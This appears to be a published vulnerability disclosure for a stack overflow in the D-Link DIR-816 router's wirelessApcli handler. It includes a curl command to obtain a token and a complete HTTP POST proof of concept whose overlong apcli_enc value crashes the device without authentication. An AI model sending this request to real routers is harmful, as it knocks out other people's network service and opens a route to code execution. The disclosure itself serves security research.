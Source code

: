 # D-Link Vulnerability

Vendor:D-Link

Product:DIR816

Version:1.10CNB05

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in D-Link router with firmware which was released recently, allows remote attackers to crash the server.（without authentication）

Gets the token ID.

```
curl http://192.168.1.1/dir_login.asp | grep tokenid
```

**Stack Overflow**

In `goahead` binary:

In the router's `wirelessApcli` function, `apcli_mode、apcli_enc、apcli_default_key` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `apcli_mode、apcli_enc、apcli_default_key` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `apcli_mode、apcli_enc、apcli_default_key` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `apcli_enc` as **aaaaa......,** , and the router will crash, such as:

```http
POST /goform/wirelessApcli HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 345
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/d_wizard_step1_start.asp
Cookie: curShow=
Upgrade-Insecure-Requests: 1

apcli_ssid=1&apcli_bssid=&apcli_channel=&apcli_extchannel=&apcli_chwidth=&apcli_wireless_mode=&apcli_enc=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&tokenid=1804289383
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/3.png" style="zoom:60%;" /></div>
